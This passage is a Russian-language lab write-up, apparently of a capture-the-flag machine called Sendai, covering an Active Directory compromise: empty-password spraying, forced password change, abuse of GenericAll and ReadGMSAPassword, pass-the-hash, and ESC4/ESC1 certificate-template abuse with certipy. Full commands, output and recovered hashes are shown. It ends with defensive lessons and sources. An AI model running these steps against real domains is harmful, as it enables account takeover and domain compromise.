Теперь, когда мы выполнили первостепенные действия, можно углубиться в содержимое найденных нами шар. Для этого можно воспользоваться тулом `smbmap`, поскольку он умеет рекурсивно обходить все шары и вложенные в них каталоги, файлы, что позволяет достаточно быстро перечислить содержимое шар на предмет полезных данных. Кроме того, этот тул умеет также рекурсивно скачивать все найденные файлы или только указанные.

??? note "Пример работы smbmap"
    
    ///screenshot
    Пример работы smbmap
    ///

!!! info "Примечание по поводу `netexec`"
    `netexec` точно также, как и `smbmap`, умеет рекурсивно перечислять содержимое SMB шар. Однако, при попытке выполнить подобное перечисление при помощи его встроенной функции `--spider` я потерпел неудачу: тул без всяких ошибок завершал перечисление, будто говоря о том, что перечислять попросту нечего. Я пытался найти какую-либо информацию о подобном поведении `netexec`, но не нашёл внятных объяснений. Если кто в курсе, буду рад вашим комментариям по данному поводу.

Перечисление шар не дало особо весомых плодов. Среди содержимого мое внимание привлёк один файл `incident.txt`. Там говорилось о том, что недавно была проведена инвентаризация паролей учетных записей: слабые пароли у обнаруженных юзеров были сброшены, а это значит, что при следующей аутентификации им нужно будет сменить свой пароль. Поначалу было не совсем понятно, что этим пытается сказать автор, потому как более чего-то полезного, кроме этого файла, я найти не смог. На текущий момент у меня есть только список пользователей домена.

??? note "Содержимое incident.txt"
    
    ///screenshot
    Содержимое incident.txt
    ///

## Получение начального доступа, перечисление домена и первый флаг — `T1078.002`, `T1069.002`, `T1098`, `T1021.006`

Поразмышляв немного над тем, что у меня есть на руках, я принялся искать информацию о том, что бывает, если юзеру сбрасывают пароль и просят установить его при следующей аутентифкиации. Спустя некоторое время я наткнулся на [статью](https://hacktricks.wiki/en/windows-hardening/active-directory-methodology/password-spraying.html){:target="_blank"}, в которой описана ситуация, когда при выполнении `password spraying` у определенных юзеров присутствует флаг `STATUS_PASSWORD_MUST_CHANGE`. Для меня (как для атакующего) это говорит о том, что я могу установить этому юзеру новый пароль, не зная его старого пароля, и, соответственно, пройти аутентификацию от его имени. Надеясь на позитивный исход, я принялся с помощью `netexec` "распылять" пустой пароль по пользователям в моём списке, который я ранее составил, воспользовавшись функцией `--rid-brute`.

??? note "Результат распыления пароля"
    
    ///screenshot
    Результат распыления пароля
    ///

На скриншоте выше видно, что у пользователей домена `elliot.yates` и `thomas.powell` активен флаг `STATUS_PASSWORD_MUST_CHANGE`. Это значит, что любому из этих пользователей мы можем самостоятельно установить любой пароль. Использовать мы для этого будем, опять же, `netexec`. Я выбрал для этого пользователя `elliot.yates`. Поскольку на данном этапе у нас нет какой-либо информации об их отличительных особенностях, выбор между ними непринципиален. После установки нового пароля сразу же проверим возможность аутентификации от имени этого юзера.

=== "Изменение пароля"
    ```console
    $ nxc smb dc.sendai.vl -u 'elliot.yates' -p '' -M change-password NEWPASS='Password123'
    SMB         10.129.59.196    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) 
    (signing:True) (SMBv1:None) (Null Auth:True)
    SMB         10.129.59.196    445    DC               [-] sendai.vl\elliot.yates: STATUS_PASSWORD_MUST_CHANGE 
    CHANGE-P... 10.129.59.196    445    DC               [+] Successfully changed password for elliot.yates
    ```

=== "Попытка аутентификации"
    ```console
    $ nxc smb dc.sendai.vl -u 'elliot.yates' -p 'Password123'
    SMB         10.129.59.196    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) 
    (domain:sendai.vl) (signing:True) (SMBv1:None) (Null Auth:True)
    SMB         10.129.59.196    445    DC               [+] sendai.vl\elliot.yates:Password123 
    ```

Из результата работы `netexec` видим, что установка нового пароля успешно завершена и юзер `elliot.yates` доступен для аутентификации с новым установленным паролем (`Password123`). Теперь, когда у нас есть учетные данные одного из юзеров домена, мы можем выполнить полное перечисление домена с помощью `rusthound-ce`. Я открыл этот сборщик для себя совсем недавно. Как следует из названия, написан он на `Rust`.

=== "rusthound-ce"
    ```console
    $ rusthound-ce -d sendai.vl -u 'elliot.yates' -p 'Password123' -f DC.sendai.vl -c All -z
    ```

Приведенная выше команда завершается успехом и мы получаем zip-архив со всеми данными о домене `sendai.vl`. Для анализа полученных данных поднимаем `bloodhound` и здесь перед нами выстраивается вполне перспективная цепочка. Наш пользователь, `elliot.yates`, находится в группе `Support`, представители которой имеют разрешение `GenericAll` в отношении группы `ADMSVC` (скриншот 6), а группа `ADMSVC`, в свою очередь, имеет разрешение `ReadGMSAPassword` в отношении компьютерной учетной записи `MGTSVC$` (скриншот 7).

??? note "Выявленные разрешения между субъектами домена"
    === "Support --> (GenericAll) --> ADMSVC"
        
        ///screenshot
        Support --> (GenericAll) --> ADMSVC"
        ///

    === "ADMSVC --> (ReadGMSAPassword) --> MGTSVC$"
        
        ///screenshot
        ADMSVC --> (ReadGMSAPassword) --> MGTSVC$
        ///

Выявленные нами обстоятельства позволяют сделать следующее: добавить юзера `elliot.yates` в группу `ADMSVC`, пользуясь наличием разрешения `GenericAll`; используя разрешение `ReadGMSAPassword` у группы `ADMSVC` в отношении `MGTSVC$` запросить хэш пароля данной компьютерной учтеной записи; завершащающим итогом станет аутентификаиця от лица `MGTSVC$`. Для добавления нашего пользователя `elliot.yates` в группу `ADMSVC` можно использовать тул `net` или `bloodyad`. С помощью `net` затем проверим, что пользователь `elliot.yates` действительно был добавлен в группу `ADMSVC`.

=== "net addmem"
    ```console
    $ net rpc group addmem "ADMSVC" "elliot.yates" -U sendai.vl/elliot.yates%Password123 -U dc.sendai.vl
    ```

=== "net members"
    ```console
    $ net rpc group members "ADMSVC" -U sendai.vl/elliot.yates%Password123 -U dc.sendai.vl
    SENDAI\websvc
    SENDAI\Norman.Baxter
    SENDAI\Elliot.Yates
    ```

Из результата работы `net` видим, что в группе `ADMSVC` на данный момент состоит три юзера, в том числе добавленный нами `elliot.yates`. Теперь, используя нашего пользователя, мы можем воспользоваться разрешением `ReadGMSAPassword` в отношении компьютерной учетной записи `MGTSVC$`. Существуют разные способы получения хэша пароля учетной записи при помощи наличия данного разрешения, но я вновь прибегну к использованию `netexec`, потому как, по моему мнению, в данных условиях это самый простой и быстрый способ получить заветный хэш.

=== "netexec --gmsa"
    ```console
    $ nxc ldap dc.sendai.vl -u 'elliot.yates' -p 'Password123' --gmsa
    LDAP        10.129.59.196    389    DC               [*] Windows Server 2022 Build 20348 (name:DC) 
    (domain:sendai.vl) (signing:None) (channel binding:Never) 
    LDAP        10.129.59.196    389    DC               [+] sendai.vl\elliot.yates:Password123 
    LDAP        10.129.59.196    389    DC               [*] Getting GMSA Passwords
    LDAP        10.129.59.196    389    DC               Account: mgtsvc$              NTLM: 07d0303e41518a6ffcc323f5b3744cb3     PrincipalsAllowedToReadPassword: admsvc
    ```

Теперь, когда у нас в наличии есть хэш пароля учетной записи `mgtsvc$`, мы можем выполнить атаку вида `Pass-the-Hash` для того, чтобы получить интерактивную сессию от имени данной учетной записи. Для этого мы воспользуемся `evil-winrm` со встроенной опцией `-H` для того, чтобы предоставить хэш вместо пароля в открытом виде. После аутентификации заберем первый флаг `user.txt`.

??? note "Flag 1 (user.txt)"
    
    ///screenshot
    Flag 1 (user.txt)
    ///

## Локальное перечисление сервисов и извлечение учетных данных — `T1007`, `T1552.002`

После того, как я смог получить интерактивную сессию от имени `MGTSVC$`, я принялся выполнять локальное перечисление системы. Из всех предпринятых методов перечисления плоды дал только один: перечисление запущенных служб.

=== "Перечисление служб"
    ```console
    dir -Path HKLM:\SYSTEM\CurrentControlSet\services | Get-ItemProperty | Select-Object ImagePath | select-string -NotMatch "svchost.exe" | select-string "exe"
    ```

В результате данного перечисления при запуске одной из служб были переданы учетные данные в открытом виде пользователя домена `clifford.davey`. Проверка с помощью `netexec` подтвердила подлинность учетных данных.

??? note "Обнаруженные учетные данные"
    === "Учетные данные"
        
        ///screenshot
        Обнаруженные учетные данные
        ///

    === "Проверка учетных данных"
        ```console 
        $ nxc smb dc.sendai.vl -u 'clifford.davey' -p 'RFmoB2WplgE_3p'
        SMB         10.129.59.196    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) 
        (domain:sendai.vl) (signing:True) (SMBv1:None) (Null Auth:True)
        SMB         10.129.59.196    445    DC               [+] sendai.vl\clifford.davey:RFmoB2WplgE_3p
        ```

## Эксплуатация AD CS, компрометация домена и второй флаг — `T1649`, `T1550.002`

После получения очередной скомпрометированной учетной записи сразу же идём проверять её возможности в `BloodHound`. После анализа полученной учетной записи я зафиксировал важную вещь: юзер `clifford.davey` состоит в группе `CA-OPERATORS`, члены которой, в свою очередь, имеют разрешение `GenericAll` в отношении шаблона сертификата `SENDAICOMPUTER`, что видно на скриншоте 10.

??? note "`clifford.davey` в `BloodHound`"
    
    ///screenshot
    `clifford.davey` в `BloodHound`
    ///

Факт наличия таких прав у скомпрометированного нами пользователя говорит о возможности проведения атаки `ESC4`. То есть, мы можем модифицировать сертификат и выпустить его для заданного пользователя, например, администратора, а затем аутентфицироваться с его помощью в системе (`Pass-the-Cerificate`). Проводя модификацию (изменение) шаблона сертификата, мы делаем его уязвимым для проведения других видов атак, в нашем случае для проведения атаки `ESC1`. Это значит, что мы можем использовать уязвимый сертификат для прохождения аутентификации от имени любого пользователя домена. Для эксплуатации уязвимого шаблона сертификата я буду использовать тул `certipy-ad`.

??? note "Эксплуатация уязвимого шаблона сертификата"
    === "Модификация шаблона"
        ```console
        $ certipy-ad template -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -template SENDAICOMPUTER -target 10.129.59.196 -write-default-configuration
        Certipy v5.0.4 - by Oliver Lyak (ly4k)

        [*] Saving current configuration to 'SendaiComputer.json'
        [*] Wrote current configuration for 'SENDAICOMPUTER' to 'SendaiComputer.json'
        [*] Updating certificate template 'SendaiComputer'
        [*] Replacing:
        [*]     nTSecurityDescriptor: b'\x01\x00\x04\x9c0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x02\x00\x1c\x00\x01\x00\x00\x00\x00\x00\x14\x00\xff\x01\x0f\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00'
        [*]     flags: 66104
        [*]     pKIDefaultKeySpec: 2
        [*]     pKIKeyUsage: b'\x86\x00'
        [*]     pKIMaxIssuingDepth: -1
        [*]     pKICriticalExtensions: ['2.5.29.19', '2.5.29.15']
        [*]     pKIExpirationPeriod: b'\x00@9\x87.\xe1\xfe\xff'
        [*]     pKIExtendedKeyUsage: ['1.3.6.1.5.5.7.3.2']
        [*]     pKIDefaultCSPs: ['2,Microsoft Base Cryptographic Provider v1.0', '1,Microsoft Enhanced Cryptographic Provider v1.0']
        [*]     msPKI-Enrollment-Flag: 0
        [*]     msPKI-Private-Key-Flag: 16
        [*]     msPKI-Certificate-Name-Flag: 1
        [*]     msPKI-Minimal-Key-Size: 2048
        [*]     msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.2']
        Are you sure you want to apply these changes to 'SendaiComputer'? (y/N): y
        [*] Successfully updated 'SendaiComputer'
        ```

    === "Запрос сертификата для Administrator"
        ```console
        $ certipy-ad req -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -dc-ip 10.129.59.196 -target 'dc.sendai.vl' -ca 'sendai-DC-CA' -template SENDAICOMPUTER -upn 'administrator' -sid 'S-1-5-21-3085872742-570972823-736764132-500'
        Certipy v5.0.4 - by Oliver Lyak (ly4k)

        [*] Requesting certificate via RPC
        [*] Request ID is 6
        [*] Successfully requested certificate
        [*] Got certificate with UPN 'administrator'
        [*] Certificate object SID is 'S-1-5-21-3085872742-570972823-736764132-500'
        [*] Saving certificate and private key to 'administrator.pfx'
        [*] Wrote certificate and private key to 'administrator.pfx'
        ```

    === "Аутентификация от имени Administrator"
        ```console
        $ certipy-ad auth -u administrator -domain sendai.vl -dc-ip 10.129.59.196 -ns 10.129.59.196 -pfx administrator.pfx
        Certipy v4.8.2 - by Oliver Lyak (ly4k)

        [*] Using principal: administrator@sendai.vl
        [*] Trying to get TGT...
        [*] Got TGT
        [*] Saved credential cache to 'administrator.ccache'
        [*] Trying to retrieve NT hash for 'administrator'
        [*] Got hash for 'administrator@sendai.vl':
        aad3b435b51404eeaad3b435b51404ee:cfb106feec8b89a3d98e14dcbe8d087a
        ```
    
После получения хэша администратора можем использовать `evil-winrm` для аутентификации посредством `Pass-the-Hash`, используя его встроенную опцию `-H`. После аутентификации находим и забираем второй флаг (`root.txt`).

??? note "Flag 2 (root.txt)"
    
    ///screenshot
    Flag 2 (root.txt)
    ///

## Извлеченные уроки

1. **SMB**. Анонимный доступ к сетевым шарам привел к раскрытию внутреннего документа `incident.txt`, который стал отправной точкой всей атаки. Именно информация, содержащаяся в нём, натолкнула на мысль использовать распыление пустого пароля для выявления учетных записей с активным флагом `STATUS_PASSWORD_MUST_CHANGE`. В любом случае, доступ к сетевым шарам должен предоставляться ТОЛЬКО и ТОЛЬКО аутентифицированным пользователям с соблюдением принципа наименьших привилегий.
2. **Сброс паролей**. Именно из-за массового сброса паролей две обнаруженные учетные записи имели активный флаг `STATUS_PASSWORD_MUST_CHANGE`, что позволило совершенно легитимно установить собственный пароль через RPC-вызовы без необходимости знания старого пароля. Это говорит о том, что при применении процедуры сброса пароля пароль не должен быть пустым значением. Администраторам следует генерировать сложные временные пароли.
3. **Чрезмерное делегирование прав**. Именно из-за того, что у рядового пользователя ввиду его членства в группе `Support` было разрешение `ReadGMSAPassword` в отношении `MGTSVC$`, попытка перемещения была успешной. 
4. **Безопасное хранение учетных данных в локальных системах**. Запуск службы `helpdesk.exe` был сконфигурирован с передачей учетных данных пользователя `clifford.davey` в открытом виде через аргументы командной строки. Для запуска фоновых служб должны использоваться встроенные учетные записи.
5. **Защита AD CS**. Группа `CA-OPERATORS` обладает правами `GenericAll` в отношении шаблона сертификата `SENDAICOMPUTER`. Этот факт позволил модифицировать настройки шаблона (ESC4) и выполнить атаку вида ESC1, что в итоге привело к возможности аутентификации на контроллере домена в качестве администратора. Необходимо строго ограничить права на управление шаблонами сертификатов; убрать права вроде `GenericAll` у всех групп, кроме выделенных `Enterprise Admins`.

## Источники

1. [:notepad_spiral: ADCS ESC4: Vulnerable Certificate Template Access Control от MD Aslam](https://www.hackingarticles.in/adcs-esc4-vulnerable-certificate-template-access-control/){:target="_blank"}
2. [:notepad_spiral: AD Certificate Exploitation: ESC1 от MD Aslam](https://www.hackingarticles.in/ad-certificate-exploitation-esc1/){:target="_blank"}
3. [:notepad_spiral: Credential Dumping: GMSA](https://www.hackingarticles.in/readgmsapassword-attack/){:target="_blank"}
4. [:notepad_spiral: Identify and Take Over "Password must change at next logon" Accounts (SAMR) от hacktricks[.]wiki](https://hacktricks.wiki/en/windows-hardening/active-directory-methodology/password-spraying.html#identify-and-take-over-password-must-change-at-next-logon-accounts-samr){:target="_blank"}